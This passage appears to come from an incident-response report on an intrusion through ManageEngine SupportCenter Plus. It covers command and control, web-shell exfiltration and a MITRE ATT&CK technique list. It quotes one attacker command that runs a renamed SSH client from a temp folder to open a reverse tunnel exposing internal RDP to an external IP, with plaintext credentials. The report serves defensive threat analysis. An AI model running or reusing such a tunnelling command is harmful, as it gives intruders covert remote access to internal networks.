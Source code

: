 echo y|C:\windows\temp\ekern.exe -ssh -P 443 -l admin1 -pw Asde345@#$345sdfDFVCDF -R 23.81.246.84:49800:10.X.X.X:3389 23.81.246.84


# Command and Control
All command and control traffic we observed was through the SSH tunnel to 23.81.246.84. That IP address was exposing an SSH server on port 443 which was what the beachhead made connections with.

The headers of 23.81.246.84:433 reported the threat actor was using a Bitvise SSH Server:

# Exfiltration
After getting a foothold on the beachhead machine, an attacker first downloaded the postgres DB backup of the ManageEngine SupportCenter Plus application using the web shell.


Seven days after initial access, an attacker exfiltrated a certificate from the server, a Visio file, and an excel sheet for the accounts via web shell:

Server certificate downloaded via web shell:



Visio file downloaded via web shell:



Excel file downloaded via web shell:



An attacker was also seen exfiltrating confidential documents during a RDP session and triggering canary tokens from 192.221.154.141 and 8.0.26.137 upon opening the documents.

Impact
The threat actors were evicted from the network soon after stealing confidential information.

# MITRE ATT&CK DATASET
T1190 – Exploit Public-Facing Application
T1572 – Protocol Tunneling
T1012 – Query Registry
T1003 – OS Credential Dumping
T1087 – Account Discovery
T1057 – Process Discovery
T1021.001 – Remote Services: Remote Desktop Protocol
T1059.001 – Command and Scripting Interpreter: PowerShell
T1047 – Windows Management Instrumentation
T1070.004: File Deletion
T1078.002 – Domain Account
T1112 – Modify Registry
T1036 – Masquerading
T1505.003 – Server Software Component: Web Shell